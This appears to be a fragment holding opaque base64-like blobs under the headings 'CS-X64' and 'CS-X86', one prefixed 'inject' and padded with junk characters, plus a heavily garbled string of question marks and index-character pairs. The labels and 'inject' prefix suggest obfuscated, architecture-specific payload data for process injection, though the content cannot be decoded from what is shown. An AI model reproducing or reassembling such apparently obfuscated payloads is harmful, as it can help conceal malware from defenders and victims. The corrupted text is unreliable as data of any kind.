 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86



jesad34|?2,.?;6,e??;10,???O;???1????4???,y;18????,c;22??,?C???;2????6,N;3?0,????y;34?,c;3?8,C???;4???2,r;4?6????,Q;50??,Y?;54,???m;???58,2;????62,p;?66,?s;??7?0,T;7?4??,D;78?,??J;82???,9?;86???,???9;90?,R;9??4,?5?;98????,h;10??2,P??;106?,??i;11?0,G;1????14,I????;118????,H;1??22,r????;126,?N;13????0,j;1????34,k;??|h?Ar.??C??0he6???mlO?9YYyx????yCczU????2C0L????AN???vhI???yxDn??cCLM??CVnBr??rN?L???Q?NBqYy?U2m?T???9l????2105p??gDvs?DZe???TVn???DD5w0???Jwl??v9??zUY9????0??9zR??n?x05?3ljh??zLN???PVm??Aivg????H???Gh????zm????IBVw??HPf?Br??9IT?NxEr??j???CL3k?=????qerger

rthtFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuFRQ==op;ot
